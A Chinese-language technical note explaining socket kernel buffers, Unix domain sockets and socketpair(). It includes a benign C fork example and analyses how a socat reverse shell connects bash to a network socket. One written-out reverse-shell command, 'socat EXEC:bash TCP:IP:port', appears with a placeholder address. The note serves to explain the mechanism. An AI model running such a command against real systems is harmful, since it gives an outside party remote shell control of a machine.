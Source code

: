 ## 套接字与反弹shell

> unix域套接字是一种IPC方法，实质上还是socket，只不过是用于本机的socket类型。

这儿主要来谈一谈socket的数据传输，也就是`read/write`的实质。

> 通信就是让一个数据在两个进程间传输

```
int read(int handle, void *buf, int nbyte);
int write(int handle, void *buf, int nbyte);
```
这儿需要搞清楚的是这儿的`*buf`都是应用层`buffer`，而一个`socket`是有两个`内核层buffer的`，也就是`recv_buffer`和`send_buffer`，而`read`和`write`的成功条件就仅仅是从`内核层buffer`中读取/写入数据而已，而并非是发送。
![97f9fb22-13d8-4e3c-8b1a-6be5b71f0258.jpg](unix域套接字_files/97f9fb22-13d8-4e3c-8b1a-6be5b71f0258.jpg)
至于发送数据，对于网络I/O来说那是TCP/UDP的事情，系统调用层并不提供任何保证，然后在要发送时，再将数据从`内核层buffer`中拷贝到该去的地方，当满足某些条件时，再将`buffer`中的数据清除
> 例如已经发送的网络的数据，直到收到对方发送的ACK后，才从`buffer`中清除这一部分数据


## 反弹shell
```
$socat EXEC:bash TCP:IP:port
```
这种形式的反弹shell与NC类似，但是又不一样，因为`socat`与`bash`之间是父子关系，而通信机制便是`unix域套接字`。

使用的函数实现应该是`socketpair`

## unix域套接字
进程间通信的socket就是`unix domain socket`，与网络socket相同，只不过通过把通信域改成了`AF_UNIX`，而传输的数据依旧可以选择成`SOCK_STREAM(流数据)`或者是`SOCK_DGRAM(数据报)`
`socketpair()`可以算作是对`socket`的封装，他创建了一对套接字，但是因为是无命名套接字，所以只有相关进程才能使用
```
int socketpair(int domain, int type, int protocol, int sockfd[2]);
```
父进程使用`sockfd[0]`，子进程就使用`sockfd[1]`，反之亦然。

父进程通过`write`将数据写入`sockfd[0]`的`send_buffer`中，然后`kernel`将`sockfd[0]`的`send_buffer`中的数据拷贝到`sockfd[1]`的`recv_buffer`中，子进程再通过`read`从`sockfd[1]`的`recv_buffer`中读取。读取亦然。
示例代码:
```
#include<stdio.h>  
#include<string.h>  
#include<sys/types.h>  
#include<stdlib.h>  
#include<unistd.h>  
#include<sys/socket.h>  
  
void print(int n)
{
    printf("%d",n);
}
int main()     
{  
    int sv[2]; //一对无名的套接字描述符  
    if(socketpair(PF_LOCAL,SOCK_STREAM,0,sv) < 0) //成功返回零 失败返回-1  
    {  
    perror("socketpair");  
    return 0;  
    }  
    pid_t id = fork(); //fork出子进程
    if(id == 0)               
    {
            char buf[1024];  
            close(sv[1]);
            const char* msg = "Socat输出\n"; 
            write(sv[0],msg,strlen(msg));
            ssize_t _s = read(sv[0],buf,sizeof(buf)-1);
            if(_s > 0)  
            {  
            buf[_s] = '\0';  
            printf("Socat接收的输入 : %s\n",buf);  
            }
    }  
    else   
    {
            close(sv[0]);//关闭写端口
            char buf[1024];  
            ssize_t _s = read(sv[1],buf,sizeof(buf)-1);
            if(_s > 0)  
            {  
            buf[_s] = '\0';  
            printf("bash接收的输入 : %s\n",buf);  
            }
            sleep(1);
            const char* msg = "bash执行结果\n"; 
            write(sv[1],msg,strlen(msg));   
    }  
    return 0;  
}  
```
### 反弹shell解释
重新回到刚才的反弹shell，`lsof`看到的东西是这样的：
![53f77557-2e74-4cbd-b8eb-42e3bf36b159.png](unix域套接字_files/53f77557-2e74-4cbd-b8eb-42e3bf36b159.png)
这种反弹shell就是`socat`创建了`bash`子进程，并且将自己的`0:标准输入`，`1:标准输出`重定向到了`socket[1]`的`fd`上，然后`socat`则通过`5u`就是`socket[0]`的`fd`，同时`6u`是一个`网络socket`的fd，从而达成了一个外部输入控制`bash`的流程